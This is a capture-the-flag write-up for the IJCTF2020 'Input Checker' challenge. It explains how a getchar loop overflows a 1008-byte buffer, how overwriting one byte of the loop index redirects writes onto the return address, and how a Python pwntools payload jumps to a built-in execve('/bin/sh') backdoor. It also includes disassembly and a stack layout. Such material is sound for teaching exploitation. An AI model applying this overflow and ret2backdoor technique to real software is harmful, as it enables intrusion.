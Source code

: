 ## Input Checker (100pt)

### Description

> Finding the best input.
> 
> `nc 35.186.153.116 5001`
> 
> Author: Tux

### Attachment

[input](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/IJCTF2020/pwn/input/input)

### Analysis

#### buffer overflow

```c
  for ( j = 0; j <= 1089; ++j ){
    chr = getchar();
    v7[j] = chr;
  }
```

>  do `getchar` 1089 times while `v7` is only 1008 bytes 

After the `for loop`, variables after `v7` will be overwritten.

#### back door

`execve("/bin/sh",0,0)` in `0x00401253`:

```nasm
0x00401253      ba00000000     mov edx, 0
0x00401258      be00000000     mov esi, 0
0x0040125d      488d3dae0d00.  lea rdi, str.bin_sh         ; 0x402012 ; "/bin/sh"
0x00401264      e837feffff     call sym.imp.execve
```

### Solution

#### Stack layout

We should focus on the stack layout after `v7` :

```c
  unsigned int v3; // eax
  __int64 v4; // rax
  char fd; // [rsp+0h] [rbp-640h]
  char v7[1008]; // [rsp+210h] [rbp-430h]
  int rnd1; // [rsp+600h] [rbp-40h]
  int rnd2; // [rsp+604h] [rbp-3Ch]
  int rnd3; // [rsp+608h] [rbp-38h]
  int rnd4; // [rsp+60Ch] [rbp-34h]
  int rnd5; // [rsp+610h] [rbp-30h]
  int chr; // [rsp+61Ch] [rbp-24h]
  __int64 const_4; // [rsp+620h] [rbp-20h]
  int j; // [rsp+628h] [rbp-18h]
  int i; // [rsp+62Ch] [rbp-14h]
```

in gdb:

![](http://image.taqini.space/img/20200427013321.png)

`j` is the **index** of `v7` as well as the variable controlling the `for loop` 

We can overwrite 1 byte of `j` after 1048 times `getchar`

```c
  for ( j = 0; j <= 1089; ++j ){
    chr = getchar();
    v7[j] = chr;
  }
```

Here is the stack layout while j is 1048: 

![](http://image.taqini.space/img/20200427015128.png)

We can overwrite the last byte of `j` to `0x37` ,so that `j` become `0x438` after `j++`

> `v7[0x438]` is the address of the return address

#### ret2backdoor

In the next 8 times `getchar`, return address in stack will be overwritten with address of backdoor:

```python
offset = 1048
payload = cyclic(offset)
payload += '\x37'
payload += p64(0x0401253) # backdoor
payload = payload.ljust(0x441,'A')
# debug('b *0x40129e')
sl(payload)
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/IJCTF2020/pwn/input) 


